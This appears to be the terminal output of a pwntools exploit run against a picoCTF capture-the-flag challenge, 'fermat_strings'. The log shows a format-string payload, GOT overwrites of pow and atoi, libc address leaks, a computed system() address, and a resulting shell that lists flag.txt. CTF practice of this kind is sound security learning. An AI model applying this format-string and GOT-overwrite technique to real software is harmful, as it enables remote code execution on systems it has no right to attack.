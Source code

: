 ```shell







hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/fermat_strings_final/bin$ python3 exploit.py REMOTE
[*] '/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] Main address: 0x400837
[*] pow() GOT address: 0x601040
/home/hjn4/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:840: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/exploit.py:35: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Calculating for A: ")
[*] rewrote pow GOT to main
[*] puts() GOT address: 0x601018
[*] Sending:
    A:
    b'1_______%43$s.%44$s.'
    B:
    00000000  31 5f 5f 5f  5f 5f 5f 5f  18 10 60 00  00 00 00 00  │1___│____│··`·│····│
    00000010  58 10 60 00  00 00 00 00                            │X·`·│····│
    00000018
[*] Received:
    00000000  a0 b5 6f 02  91 7f 2e 30  b7 6b 02 91  7f 2e        │··o·│··.0│·k··│·.│
    0000000e
[*] puts() runtime address: 0x7f91026fb5a0
[*] atoi() runtime address: 0x7f91026bb730
[*] libc_base address: 0x7f9102674000
[*] system address: 0x7f91026c9410
[*] atoi() GOT address: 0x601058
Original values:
High: 32657
Medium: 620
Low: 37904

Sorted values:
medium: 620 12
high: 32657 13
low: 37904 11
/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/exploit.py:124: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Calculating for A: ")
[*] rewrote atoi GOT to system
[*] Switching to interactive mode
$ ls
flag.txt
```